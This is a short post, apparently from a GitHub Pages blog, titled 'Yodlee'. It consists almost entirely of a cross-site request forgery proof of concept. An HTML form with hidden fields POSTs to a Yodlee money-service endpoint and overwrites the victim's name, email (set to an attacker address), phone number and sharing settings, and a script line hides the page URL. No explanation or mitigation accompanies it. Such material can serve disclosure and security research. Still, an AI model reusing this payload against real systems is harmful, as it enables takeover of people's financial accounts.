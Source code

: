 ```yaml
---
layout: post
title: Yodlee
---
```


---


  <script>history.pushState('', '', '/')</script>
    <form action="https://money.yodlee.com/services/Authenticator/updatePersonalInformation/?app=10003700&instance=&status=published&token=undefined&resturl=https://172.17.25.209/services/srest/pfm3&version=1003.05&cobAppExtension=pfm3" method="POST">
      <input type="hidden" name="firstName" value="Sahad" />
      <input type="hidden" name="lastName" value="NK" />
      <input type="hidden" name="emailID" value="attacker123&#64;gmail&#46;com" />
      <input type="hidden" name="country" value="United&#32;States&#32;of&#32;America" />
      <input type="hidden" name="mobileNo" value="&#43;1&#45;7012722544" />
      <input type="hidden" name="shareInfo" value="true" />
      <input type="hidden" name="receiveEmails" value="true" />
      <input type="submit" value="Submit request" />
    </form>
 

